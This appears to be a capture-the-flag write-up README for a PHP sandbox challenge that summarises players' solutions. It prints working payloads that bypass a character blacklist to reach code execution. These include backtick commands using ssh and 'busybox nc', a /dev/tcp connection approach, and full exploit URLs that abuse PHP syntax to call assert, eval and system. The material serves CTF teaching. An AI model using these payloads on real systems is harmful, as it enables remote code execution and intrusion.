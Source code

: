 ![Hall Of Fame](hof.png)
# URL
[l4w.pw/🤔/](http://l4w.pw/🤔/)

# Type
PHP CTF-style challenge.

How to construct command following the rules.

Trick to run weird command or abusing PHP syntax.

# Solution
This challenge came by when I was solving a PHP sandbox challenge which has limited characters/blacklist functions/...

I left backstick, to see amazing tricks from you guys.

All of them can be found at: [writeup](writeup)

There are serveral solutions:
### Run multiple commands which does following steps:
* Create a temporary file containing chunks (by using: printf/echo/...)
* Run the file, to connect localhost:8888 (using python or bash with /dev/tcp/...)
* See nyan/orange/kaibro/pablo sol.
* shout out to nyan for the full details [writeup](writeup/nyan.pdf).


### Abusing ssh / busybox
It ... surprised me 
* ```die(`ssh -v 0 -p 888\%0a8 2>&1`);```
* ```die(`bus\yb\ox nc 0:888\8`);```
* Using `ssh` and blackslash (See `huyphan` sol)


### PHP syntax abusing
By using bitwise `&`, we can make a string following the rule regexp `\w{4}`, then use `{` as a name of variable `${}`, also access array index `$array{index}`
* `http://l4w.pw/%F0%9F%A4%94/?%E2%81%A3=$a=${_GE%d4%26_GE%7f};$a{0}($a{1});&0=assert&1=eval($_GET[2]);&2=echo%20123;`
* Also see kad96/fa_boy/tsu solutions.
* `http://l4w.pw/🤔/index.php?0=system&1=busybox nc 127.0.0.1 8888&%E2%81%A3=$b=_GE;$b{3}=T;$$b{0}($$b{1});` (From tiengiang, looks like he's the first one who found out `busybox` can be used...)
